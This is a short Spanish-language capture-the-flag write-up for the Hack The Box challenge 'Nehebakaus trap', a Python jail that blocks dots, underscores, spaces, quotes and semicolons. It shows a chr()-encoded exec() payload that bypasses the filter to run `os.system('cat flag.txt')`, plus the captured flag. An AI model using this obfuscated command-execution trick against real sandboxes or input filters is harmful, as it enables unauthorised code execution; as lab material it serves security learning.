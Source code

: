 # Nehebakaus trap

Este reto tiene una instancia remota a la uno puede conectarse y por los errores que aparecen podemos concluir que se trata de una terminal en python.

Antes de ejecutar un payload como por ejemplo `print(__import__('os').system('cat flag.txt'))`, hay varias restricciones a ciertos caracteres como lo son el punto `.`, el guión al piso `_`, el espacio ` `, las comillas sencillas `'`, las comillas dobles `"` y el punto y coma `;`.

Teniendo en cuenta lo anterior, podriamos ejecutar una cadena dentro de una función `eval` o `exec`. Dicha cadena se contruiría con la función `chr()` que transforma un número en su equivalente ascii

```python
>>> chr(65)
'A'
```

Concatenaríamos carácter por carácter con la suma `+` que no esta restringido. Entonces utilicemos el payload y lo transformamos en funciones `chr` concatenadas

```python
inp = "print(__import__('os').system('cat flag.txt'))"

for c in inp:
    print("chr("+str(ord(c))+")+", end='')
```

Finalmente obtenemos la bandera

 ```python
 exec(chr(112)+chr(114)+chr(105)+chr(110)+chr(116)+chr(40)+chr(95)+chr(95)+chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(95)+chr(95)+chr(40)+chr(39)+chr(111)+chr(115)+chr(39)+chr(41)+chr(46)+chr(115)+chr(121)+chr(115)+chr(116)+chr(101)+chr(109)+chr(40)+chr(39)+chr(99)+chr(97)+chr(116)+chr(32)+chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116)+chr(39)+chr(41)+chr(41))
HTB{y0u_d3f34t3d_th3_sn4k3_g0d!}

[*] Input accepted!

0
 ```
 
 flag `HTB{y0u_d3f34t3d_th3_sn4k3_g0d!}`
